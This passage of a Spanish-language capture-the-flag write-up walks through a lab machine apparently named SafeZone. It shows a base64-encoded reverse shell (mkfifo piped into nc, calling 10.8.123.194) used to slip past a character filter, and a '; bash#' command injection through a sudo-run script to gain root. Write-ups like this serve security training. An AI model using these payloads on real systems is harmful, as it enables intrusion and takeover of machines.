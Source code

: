 Podemos observar que se llego a eliminar varios caracteres como: ;, bash, nc.

Ahora que sabemos que se ha configurado al lado del servidor, la protección de eliminar ciertos caracteres y strings que son potencialmente peligrosos. Además, los pipe o `|` están permitidos. Por lo tanto, codificaremos en base64 el comando anterior, para luego decodificarlo, y ejecutarlo con el comando sh. (`echo “cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTAuOC4xMjMuMTk0IDE4MDAgP i90bXAvZg==” | base64 -d | sh`)

![](/assets/images/SafeZone/image046.png)

De esta manera realizamos una escalada privilegio vertical.

Ahora seguiremos buscando vectores de escalada privilegios, para ello enumeraremos los comandos que podemos ejecutar con privilegios elevados mediante el comando sudo.

![](/assets/images/SafeZone/image047.png)

Podemos observar que podemos ejecutar un script en Python con los privilegios de root mediante el comando sudo, pero debido a que esta en el directorio root, no tenemos ningún permiso sobre él. Aunque, si lo ejecutamos, nos solicitan una contraseña, y si no proporcionamos nada, nos genera el panel de ayuda del comando sshpass. Por lo tanto, la contraseña ingresada es utilizada como parámetro del comando sshpass.

Ahora aprovecharemos esto para realizar un Command Inejction, ingresando el comando `; bash#` en la contraseña solicitada. Con el fin de ejecutar una Shell bash con los privilegios root. Además, el símbolo # es utilizado para hacer el resto del comando en comentarios.
